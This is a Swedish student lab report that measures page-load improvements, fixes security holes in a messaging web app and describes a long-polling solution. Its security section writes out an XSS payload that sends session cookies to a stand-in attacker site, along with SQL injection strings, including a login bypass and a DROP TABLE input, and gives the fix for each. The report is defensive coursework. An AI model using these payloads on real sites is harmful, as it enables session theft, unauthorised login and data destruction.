 Rapport för laboration 2 - 1DV449
Av: Viktor Nilsson

### Laddningstid ###

Det fanns en hel del att göra för att optimera laddningstiden för sidan och dessa samt tiderna efter att förändringarna gjorts visas här nedan.
Då det främst var inloggningen som tog tid gjordes flest tester här. Applikationen har under dessa tester körs från binero.

Tider för inloggningen i sekunder.
<pre>
Gjort åtgärd:           1      2      3      4      5     6     7

Första gången: 7050 - 3640 - 6500 - 6320 - 3080 - 3710 - 913 - 1070
Andra gången:  5860 - 2620 - 2230 - 2600 - 2760 -  586 - 112 -  647
Tredje gången: 4270 - 2250 - 2020 - 3100 - 3030 -  424 - 367 -  496
</pre>

 Åtgärder
 1. Ta bort onödig location (img/middle.php) + delayen på 2 sec
 2. Ta bort script som inte finns (longpoll.js) - onödig + mindre GET, boken
 3. Flytta om så att check.php körs i mess.php för att slippa ännu fler GET, boken
 4. Samla inline-script och css i mess.php och köra med externa filer (othercss.css, otherscripts.js)
 5. Tar bort dynamiska cssfilerna från css.php och lagt i othercss.css statiska filer. Kortare laddningstider pga lokal, färre GET, boken
 6. Minska bilderna - mindre data att skicka => snabbare (food.jpg)
 7. Minimera storleken på css- och js-filer.
 
### Mer om åtgärderna ###
 
 1. Genom att ta bort GET-requests drar vi ner på laddningstiden så location's vill vi minimera. Sen tog jag även bort fulingen som gjorde att applikationen tog 2 sekunder extra att laddas. Som källa till denna åtgärd tar jag både boken och föreläsningarna då vi pratat mycket om att dra ner på antalet förfrågningar. Laddningstiden blev markant bättre främst på grund av de 2 sekunderna som applikationen pausade.
 2. Scriptet fanns ej och såg därför ingen anledning till att ha det med. Detta drog ner på ytterligare en GET-request även fast det nog inte gjorde speciellt mycket är det en av de små bäckarna. Laddningstiden blev konstig första gången men andra och tredje visar ändå på förbättring, frågan är dock om det gjorde så pass mycket som den visar. Samma referens som ovan.
 3. För att fortsätta dra ner på onödiga laddningar omstrukturerade jag lite och flyttade över funktionalitet från check.php till mess.php. Här ser vi att laddningstiden hoppar upp förmodligen på grund av andra faktorer.
 4. Jag behöll inline-cssen för index.php då den förmodligen bara kommer köras en gång per session, men inline script och css i mess.php samlade jag ihop till var sin extern fil (othercss.css & otherscripts.js) för att kunna cachea detta så att det går snabbare att ladda sidan senare. Även omstrukturering gjordes i ordningen saker och ting laddades. Längst upp laddas css och längst ner script. css ska laddas först för att sidan ska kunna renderas snyggt och snabbt, script sist för att dessa inte behövs förrän sidan renderats och att dom enbart laddas hem en och en. (Boken som referens, Rule 6). Här ser vi vid första laddningen en markant skillnad. Det kan vara att bilden var cachead som spökade här.
 5. Jag vet inte om man fick göra så här, men vad jag kunde se från innehållet på de dynamiskt laddade css-filerna grid1 & grid2 fanns där inget som var specifikt för delar av sidan så jag valde att spara dessa lokalt istället för att snabba upp tiden. (Antar att det låg någon sleep() i denna också). Dessa tog över 1 sekund att ladda så skulle ge en markant skillnad hade jag hoppats på och det gav det förutom första laddningen som visar helt andra siffror.
 6. En sak jag märkte var att food.jpg var enormt stor och då den inte visades större än ungefär 300x220 behövde den heller inte vara större då den inte någonstans i applikationen visades större än detta. Här hade jag när jag gjort skrapan ändra storleken på skrapade bilder i php och sparat ner dessa i rätt storlek för att dra ner på datamängen som ska över till klienten. Här ser vi en stor skillnad då bilden emellanåt tog upp till 2-3 sekunder att ladda ibland.
 7. Som sista grej valde jag att förminska storleken på alla externa resurser (css och js) genom en minifier (http://cssminifier.com/ och http://javascript-minifier.com/). Allt för att dra ner på mängen data som ska skickas över. Testerna här visar att resultaten i förra testet kanske inte var helt så bra som dom visade då tiderna gick upp trots att jag förväntade mig dom att gå ner på grund av datamängen minskats med över 20-30% totalt på de externa resursfilerna.
 
 Kommentarer:
 css.php?css=grid1/2 tar väldigt ojämnt med tid under första testerna vilket gjort vissa tider ej rättvisa.
 den stora bilden food.jpg laddas inte alltid trots att cache rensas vilket har ställt till det i vissa testresultat.
 
 
 
 
### Säkerhet ###

1. Det fanns gott om säkerhetshål i applikationen varav ett var XSS i meddelandefältet.
-Man skulle kunna med hjälp av följande rad kunna skicka iväg cookieinformation till en extern sida: <script language="JavaScript">document.location="http://minhaxx0rsida.se/sparacookie.php?cookie=" + document.cookie;document.location="http://www.tillbakatillsidan.com"</script>
-Jag fixade till detta genom att köra htmlentities på all data som ska ut.
-Skada som hade kunnat ske är att någon får tag på ens session och kan komma in på sidan inloggad som dig.

2. Det finns inget skydd mot att highjacka sessioner.
-Man kan om man kommer åt sessionsinformationen (t.ex med en XSS-attack) använda denna för att logga in på sidan.
-Jag fixade detta genom att spara undan både IP och useragent som man sedan kollar mot. Går att manipulera men då måste attackeraren veta båda IP och useragent.
-Skadan som hade kunnat ske är samma som ovan; någon kan komma in på sidan inloggad som dig.

3. Mycket hål för SQL-Injections i ajaxanropen. Det jag upptäckt är getMessage, getMessageIdForProducer, getProducer går att utnyttja för SQL-injections.
-Genom att mata in ' OR '1'='1 Kommer allt att hämtas hem. Vill man kan man även '; DROP TABLE tabellen;--
-Fixas genom antingen att kolla så att ett ID är ett tal, intval() brukar jag använda för nummer. Att köra en prepare() och sen en bindParam() är vad jag gjort i detta fallet på samtliga.
-Med en SQL-Injection skulle man kunna komma över information från databasen eller förstöra genom att ta bort och manipulera data. Är lösenorden dåligt krypterade skulle dessa kunna användas för att testa dina inloggningsuppgifter på andra tjänster.

4. Det gick att logga in med SQL-injections i inloggningsfältet.
-Genom att mata in ' OR '1'='1 i båda fälten kommer du loggas in, inte otänkbart med adminkonto då detta ofta registreras först. Vet du användarnamnet kan du skriva in det och sedan skriva ' OR '1'='1 i lösenordsfältet för att logga in som den personen.
-Fixas som ovan genom att köra prepare() och bindParam().
-Går att göra saker som ovan men även att logga in som andra.

5. Mer SQL-injections finns att genomföra i meddelandeformuläret, både som namn och meddelande. Detta är precis som ovan avhjälpt med prepare() och bindParam() och innefattar samma säkerhetsrisker som ovan.

6. En säkerhetsrisk som var enkelt att missa var att vid utloggning blev man inte utloggad utan bara skickad till inloggningssidan. Gick man tillbaka var man fortfarande inloggad. Jag lade till en funktion som gjorde att man loggades ut innan man skickades tillbaka till index.php.
-Risken är att någon annan sätter sig vid datorn och kan komma åt ditt konto då du inte loggats ut på riktigt.
-Ta bort sessions hjälper i detta fallet för att döda inloggningen.
-Förbrytaren kan göra allt du kan då den är inloggad som dig.

### Comet Long Polling ###

Spännande extrauppgift som var riktigt lärorik! Jag löste uppgiften genom att ha en php-fil som efter att den kallas lägger sig i en loop i bestämt antal sekunder och kollar frekvent mot databasen om ett meddelande med ett nyare ID än det som skickades till scriptet finns. Om inte fortsätter loopandet, om det däremot kommit ett meddelande som är nyare och överensstämmer med producer-idet ($pid) retureras detta.

På klientsidan har jag tagit bort den vanliga koden som läste in meddelandena och ersatte med min egna som helt enkelt börjar med att kika om det finns något meddelande för $pid'en som är större än vilket det kommer finnas om det finns meddelanden. Detta äldsta meddelande skickas tillbaka och skrivs ut, samma kod excekveras igen fast denna gången med det nya idet för meddelandet. Hittas ett meddelande som är nyare händer samma sak och detta pågår till dess att det inte finns några nyare meddelande än sist laddat meddelande. Då kommer den istället ligga och försöka ladda scriptet tills dess att den timeoutar. Då tar den upp en ny anslutning och ligger och väntar innan antingen den också timeoutar eller att det faktiskt kommer ett nytt meddelande.

Den stora nackdelen är de väldigt många SQL-anrop som sker. Allt för att användaren ska få en push-aktig upplevelse. PHP är heller inte gjort för att ha denna typ av öppna anslutningar och vad jag kunnat läsa mig till så är detta väldigt resurskrävande med öppna anslutningar och php.

Jag lade även til en kolumn i sqlite-databasen (timestamp som integer) som håller tiden. Med javascript omvandlar jag denna och spottar ut mig ett finare format.
.prepend användes istället för .append för att få meddelandena att hamna i rätt ordning (senast överst).

### Slutkommentarer: ###
Ingen energi alls har lagts på att strukturera upp koden snyggare och med enhetligt. Hade jag haft tid hade jag gärna försökt ge mig på och göra denna kod mer objektorienterad och MVC men tid har inte funnits.
Inte heller har jag brytt mig om att kapsla in javascriptsfunktioner och den globala variabeln på ett snyggare sätt som vi lärde oss i webbteknik 1, också detta för att prioritera de moment laborationen var till för.
Hade jag haft mer tid hade detta också fixats.